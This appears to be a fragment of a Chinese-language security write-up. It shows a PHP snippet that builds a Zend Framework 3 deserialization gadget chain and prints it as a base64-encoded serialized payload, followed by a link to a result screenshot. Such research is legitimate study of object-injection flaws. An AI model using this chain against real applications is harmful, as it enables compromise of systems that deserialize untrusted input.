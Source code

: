 ```php
}

namespace {
    $d = new Zend\Config\Config();
    $c = new Zend\View\Renderer\PhpRenderer($d);
    $b = new Zend\View\Helper\Gravatar($c);
    $a = new Zend\Http\Response\Stream($b);
    echo base64_encode(serialize($a));
}
```

#### 结果
![](https://raw.githubusercontent.com/Ling-Yizhou/zendframework3-/main/15.png)
